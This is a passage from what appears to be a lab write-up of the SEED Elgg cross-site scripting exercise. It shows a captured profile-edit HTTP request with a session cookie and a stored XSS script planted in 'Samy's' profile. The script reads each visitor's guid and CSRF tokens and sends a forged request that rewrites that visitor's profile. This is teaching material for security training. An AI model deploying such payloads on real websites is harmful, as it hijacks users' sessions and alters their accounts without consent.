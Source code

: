 ```
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1

```
Then edit Samy's profile and figure out his ```guid``` as 47

![alt text](https://github.com/Asad-Ali-Code/Cross-Site-Scripting-Attack/blob/main/guid.PNG)

Now we want to modify the ```about me``` module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:

```
<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>
```